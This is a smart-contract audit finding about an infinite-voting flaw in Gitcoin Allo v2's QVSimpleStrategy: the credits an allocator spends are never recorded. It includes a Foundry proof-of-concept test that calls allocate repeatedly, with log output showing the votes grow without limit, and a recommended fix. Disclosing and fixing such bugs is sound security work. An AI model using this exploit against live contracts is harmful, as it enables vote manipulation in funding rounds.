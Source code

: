 Oblong Clay Kangaroo

high

# Infinite Voting in QVSimpleStrategy
## Summary
There is no update to the credit used in QVSimpleStrategy's `_allocate`, so voting can continue without consuming credit.
## Vulnerability Detail
### details

QVSimpleStrategy's `_allocate` checks if there are any VoiceCredits left via `_hasVoiceCreditsLeft(voiceCreditsToAllocate, allocator.voiceCredits)`.

However, it does not update `allocator.voiceCredits` after `_allocate`.

Therefore, user can continue to allocate as many times as `maxVoiceCreditsPerAllocator`, which can lead to vote manipulation.
POC:

```solidity
function test_Infinite_allocate() public {
        address recipientId = __register_accept_recipient();
        address allocator = randomAddress();

        vm.startPrank(pool_manager2());
        qvSimpleStrategy().addAllocator(allocator);

        vm.warp(allocationStartTime + 10);
        bytes memory allocateData;

        vm.stopPrank();

        for(uint256 i =0;i<100;i++) {
            allocateData = __generateAllocation(recipientId, 100);
            vm.prank(address(allo()));
            qvSimpleStrategy().allocate(allocateData, allocator);
        }
    }
```

Result:

```solidity
[PASS] test_Infinite_allocate() (gas: 2886076)
Logs:
  voiceCreditsCastToRecipient 100
  votesCastToRecipient 10000000000
  voiceCreditsCastToRecipient 300
 ...
  voiceCreditsCastToRecipient 15845632502852867518708790067100
  votesCastToRecipient 2814749767106560000000000
  voiceCreditsCastToRecipient 31691265005705735037417580134300
  votesCastToRecipient 3980657295328607852889883
  voiceCreditsCastToRecipient 63382530011411470074835160268700
  votesCastToRecipient 5629499534213120000000000
  voiceCreditsCastToRecipient 126765060022822940149670320537500
  votesCastToRecipient 7961314590657215705779767
```
## Impact
allocate can still be done, which can manipulate the vote.
## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/6430c8004017e96ae2f5aac365bdefd0b6eeea72/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L107-L124
## Tool used

Manual Review

## Recommendation
The number of credits used in `_allocate` should be added to `allocator.voiceCredits`.
